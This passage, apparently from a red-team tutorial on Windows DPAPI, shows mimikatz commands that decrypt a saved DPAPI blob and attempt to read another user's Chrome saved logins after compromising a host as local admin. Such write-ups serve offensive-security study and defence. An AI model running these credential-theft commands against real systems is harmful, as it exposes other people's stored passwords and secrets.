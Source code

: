Let's copy/paste the blob into a new file in HxD and save it as `spotless.bin`. To decrypt it while running under `mantvydas` user context:

```csharp
dpapi::blob /in:"c:\users\mantvydas\desktop\spotless.bin" /unprotect
```

![](../../.gitbook/assets/screenshot-from-2019-04-13-15-43-02.png)

## Decrypting Other User's Secrets

If you compromised a system and you see that there are other users on the system, you can attempt reading their secrets, but you will not be able to do so since you do not have their DPAPI master key, yet.

Let's try reading user's `spotless` chrome secrets while running as a local admin:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect
```
{% endcode-tabs-item %}
{% endcode-tabs %}

As mentioned, we see an error message suggesting `CryptUnprotectData` is having some issues decrypting the requested secrets:

![](../../.gitbook/assets/screenshot-from-2019-04-13-15-55-38.png)
